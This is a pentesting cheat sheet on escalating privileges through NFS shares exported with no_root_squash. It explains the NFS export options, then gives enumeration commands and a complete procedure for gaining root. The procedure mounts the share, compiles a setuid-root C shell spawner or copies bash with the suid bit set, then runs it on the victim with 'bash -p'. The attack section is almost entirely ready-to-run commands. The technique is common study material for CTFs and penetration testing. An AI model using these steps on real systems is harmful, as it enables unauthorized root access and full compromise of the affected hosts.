 # NFS Root Squashing
Network File System (NFS): Network File System permits a user on a client machine to mount the shared files or directories over a network. NFS uses Remote Procedure Calls (RPC) to route requests between clients and servers. Although NFS uses TCP/UDP port 2049 for sharing any files/directories over a network.

- **rw:** Permit clients to read as well as write access to the shared directory.
- **ro:** Permit clients to Read-only access to shared directory.
- **root_squash:** This option Prevents file request made by user root on the client machine because NFS shares change the root user to the nfsnobody user, which is an unprivileged user account.
- **no_root_squash: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implication.**
- **async:** It will speed up transfers but can cause data corruption as NFS server doesn’t wait for the complete write operation to be finished on the stable storage, before replying to the client.
- **sync:** The sync option does the inverse of async option where the NFS server will reply to the client only after the data is finally written to the stable storage.

## 🔍Enumeration
### 🎯Victim
```
cat /etc/exports     # → Do we see any no_root_squash enabled on a mounted share?
# Output example: /tmp *(rw,sync,insecure,no_root_squash,no,subtree,check) 
```
### 💀Attacker
```
nmap -sV --script=nfs-showmount <victim_ip> 
```

## 📌Privilege Escalation
### 💀Attacker
```
showmount -e <victim_ip>                      
mkdir /tmp/mount                                
mount -o rw,vers=2 <victim_ip>:/tmp /tmp/mount  
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mount/priv.c  
gcc /tmp/mount/priv.c -o /tmp/mount/priv
chmod +s /tmp/mount/priv

#OR

showmount -e <victim_ip>   
mkdir /tmp/mount 
mount -o rw,vers=2 <victim_ip>:/tmp /tmp/mount  
cd /tmp/mount
cp /bin/bash .
chmod +s bash
```
### 🎯Victim
```
Victim

cd /tmp
./priv
id && whoami

#OR

cd /tmp
./bash -p
id && whoami
```
